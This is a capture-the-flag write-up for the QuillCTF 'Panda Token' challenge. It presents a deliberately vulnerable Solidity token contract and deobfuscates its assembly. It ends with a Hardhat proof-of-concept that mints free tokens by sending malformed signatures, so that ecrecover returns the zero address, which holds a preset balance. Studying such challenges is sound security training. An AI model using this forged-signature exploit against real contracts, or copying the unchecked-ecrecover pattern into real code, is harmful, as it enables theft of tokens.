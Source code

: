 # QuillCTF 10: Panda Token

> My Panda walked across the keyboard while I was signing, But an invalid signature is just as good as a valid one.

**Objective of CTF:**

- Obtain 3 (i.e. `3e18`) tokens to your account.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/access/Ownable.sol";
import "hardhat/console.sol";

contract PandaToken is ERC20, Ownable {
  uint public c1;
  mapping(bytes => bool) public usedSignatures;
  mapping(address => uint) public burnPending;
  event show_uint(uint u);

  function sMint(uint amount) external onlyOwner {
    _mint(msg.sender, amount);
  }

  constructor(uint _c1, string memory tokenName, string memory tokenSymbol) ERC20(tokenName, tokenSymbol) {
    assembly {
      let ptr := mload(0x40)
      mstore(ptr, sload(mul(1, 110)))
      mstore(add(ptr, 0x20), 0)
      let slot := keccak256(ptr, 0x40)
      sstore(slot, exp(10, add(4, mul(3, 5))))
      mstore(ptr, sload(5))
      sstore(6, _c1)
      mstore(add(ptr, 0x20), 0)
      let slot1 := keccak256(ptr, 0x40)
      mstore(ptr, sload(7))
      mstore(add(ptr, 0x20), 0)
      sstore(slot1, mul(sload(slot), 2))
    }
  }

  function calculateAmount(uint I1ILLI1L1ILLIL1LLI1IL1IL1IL1L) public view returns (uint) {
    uint I1I1LI111IL1IL1LLI1IL1IL11L1L;
    assembly {
      let I1ILLI1L1IL1IL1LLI1IL1IL11L1L := 2
      let I1ILLILL1IL1IL1LLI1IL1IL11L1L := 1000
      let I1ILLI1L1IL1IL1LLI1IL1IL11L11 := 14382
      let I1ILLI1L1IL1ILLLLI1IL1IL11L1L := 14382
      let I1LLLI1L1IL1IL1LLI1IL1IL11L1L := 599
      let I1ILLI111IL1IL1LLI1IL1IL11L1L := 1
      I1I1LI111IL1IL1LLI1IL1IL11L1L := div(
        mul(I1ILLI1L1ILLIL1LLI1IL1IL1IL1L, I1ILLILL1IL1IL1LLI1IL1IL11L1L),
        add(I1LLLI1L1IL1IL1LLI1IL1IL11L1L, add(I1ILLI111IL1IL1LLI1IL1IL11L1L, sload(6)))
      )
    }

    return I1I1LI111IL1IL1LLI1IL1IL11L1L;
  }

  function getTokens(uint amount, bytes memory signature) external {
    uint giftAmount = calculateAmount(amount);

    bytes32 msgHash = keccak256(abi.encode(msg.sender, giftAmount));
    bytes32 r;
    bytes32 s;
    uint8 v;

    assembly {
      r := mload(add(signature, 0x20))
      s := mload(add(signature, 0x40))
      v := byte(0, mload(add(signature, 0x60)))
    }

    address giftFrom = ecrecover(msgHash, v, r, s);
    console.log(giftFrom);
    burnPending[giftFrom] += amount;
    require(amount == 1 ether, "amount error");
    require((balanceOf(giftFrom) - burnPending[giftFrom]) >= amount, "balance");
    require(!usedSignatures[signature], "used signature");
    usedSignatures[signature] = true;
    _mint(msg.sender, amount);
  }

  function burnPendings(address burnFrom) external onlyOwner {
    burnPending[burnFrom] = 0;
    _burn(burnFrom, burnPending[burnFrom]);
  }
}
```

## The Attack

First of all, what is going on in that weird `calculateAmount` function?

```solidity
function calculateAmount(uint I1ILLI1L1ILLIL1LLI1IL1IL1IL1L) public view returns (uint) {
  uint I1I1LI111IL1IL1LLI1IL1IL11L1L;
  assembly {
    let I1ILLI1L1IL1IL1LLI1IL1IL11L1L := 2
    let I1ILLILL1IL1IL1LLI1IL1IL11L1L := 1000
    let I1ILLI1L1IL1IL1LLI1IL1IL11L11 := 14382
    let I1ILLI1L1IL1ILLLLI1IL1IL11L1L := 14382
    let I1LLLI1L1IL1IL1LLI1IL1IL11L1L := 599
    let I1ILLI111IL1IL1LLI1IL1IL11L1L := 1
    I1I1LI111IL1IL1LLI1IL1IL11L1L := div(
      mul(I1ILLI1L1ILLIL1LLI1IL1IL1IL1L, I1ILLILL1IL1IL1LLI1IL1IL11L1L),
      add(I1LLLI1L1IL1IL1LLI1IL1IL11L1L, add(I1ILLI111IL1IL1LLI1IL1IL11L1L, sload(6)))
    )
  }

  return I1I1LI111IL1IL1LLI1IL1IL11L1L;
}
```

If we simply replace the variables with the values they are used in, we get the following:

```solidity
function calculateAmount(uint arg) public view returns (uint) {
  uint result;
  assembly {
    result := div(
      mul(arg, 1000),
      add(599, add(1, sload(6)))
    )
  }
  return result;
}
```

So, what happens here is simply `result = (arg * 1000) / (STORAGE[6] + 600)`. Alright, now that this one is out of the way, let's take our attention towards the assembly-heavy constructor:

```ts
let ptr := mload(0x40)                    // free memory pointer (fmp)
mstore(ptr, sload(mul(1, 110)))           // MEMORY[fmp + 0x00] := STORAGE[110]
mstore(add(ptr, 0x20), 0)                 // MEMORY[fmp + 0x20] := 0

let slot := keccak256(ptr, 0x40)          // slot := HASH([fmp[0x00:0x40]) := hashes to key: 0, slot: 0
sstore(slot, exp(10, add(4, mul(3, 5))))  // STORAGE[slot] := 10^19 = 10 * 10^18
mstore(ptr, sload(5))                     // MEMORY[fmp + 0x00] := STORAGE[5]
sstore(6, _c1)                            // STORAGE[6] := 400 (first constructor argument)
mstore(add(ptr, 0x20), 0)                 // MEMORY[fmp + 0x20] := 0

let slot1 := keccak256(ptr, 0x40)         // slot1 := HASH(fmp, 0x40)
mstore(ptr, sload(7))                     // MEMORY[fmp + 0x00] := STORAGE[7]
mstore(add(ptr, 0x20), 0)                 // MEMORY[fmp + 0x20] := 0
sstore(slot1, mul(sload(slot), 2))
```

We only care about two things here:

- Storage slot 6 is assigned `_c1`, which is given as 400. This will be used within `calculateAmount` function. As a result, `calculateAmount` simply returns the given `amount` parameter! To obtain `1 ether`, you just have to give `1 ether` as the argument.

- Storage slot 0 corresponds to `ERC20` contract's `_balances` mapping. When that slot is hashed with some key, it will correspond to the slot of `_balances[key]`. In this case, `_balances[address(0)]` is hashed to obtain a slot, and `10 ^ 19` is assigned there. This means that address zero has a balance of `10 ether` many tokens!

So address zero can be our gifter account, but how do we forge a signature to `ecrecover` address zero? Well, we don't have to! If an invalid signature is given, `ecrecover` will not revert; instead, it will return address zero. We just have to provide an invalid signature then. A signature has three parameters: `r, s, v`. `r` and `s` can be any huge number, as allowed by the `secp256k1` curve. However, `v` is not that forgiving, it can only be 27 or 28. If we provide anything else, the function will fail and return an address zero.

So we just have to call the `getTokens` function with some bad signature, i.e. a signature with bad `v` value. That value is located at the end of the signature, so we can edit that part via `signature.slice(0, -2) + <your-v-here>`.

## Proof of Concept

Here is the Hardhat test with setups & attacks executed.

```ts
describe('QuillCTF 10: Panda Token', () => {
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;

  let contract: PandaToken;

  before(async () => {
    [owner, attacker] = await ethers.getSigners();
    contract = await ethers.getContractFactory('PandaToken', owner).then(f => f.deploy(400, 'PandaToken', 'PND'));
    await contract.deployed();
  });

  it('should obtain 3 tokens', async () => {
    // we are provided some reference hash in the foundry setup
    const hash = ethers.utils.keccak256(
      ethers.utils.defaultAbiCoder.encode(
        ['address', 'uint256'],
        [attacker.address, ethers.utils.parseEther('1').toHexString()]
      )
    );

    // confirm that 0 address has high balance, at least 3 * 10^18
    const zeroAddrBalance = await contract.balanceOf(ethers.constants.AddressZero);
    expect(zeroAddrBalance.gt(ethers.utils.parseEther('3'))).to.be.true;

    // commence attack
    const signature = await attacker.signMessage(hash);
    const amount = ethers.utils.parseEther('1');
    for (let i = 0; i < 3; ++i) {
      // change `v` parameter to cause invalid signature
      const badSignature = signature.slice(0, -2) + `0${i}`;

      // get tokens for free
      await contract.connect(attacker).getTokens(amount, badSignature);
    }
  });

  after(async () => {
    expect(await contract.balanceOf(attacker.address)).to.eq(ethers.utils.parseEther('3'));
  });
});
```
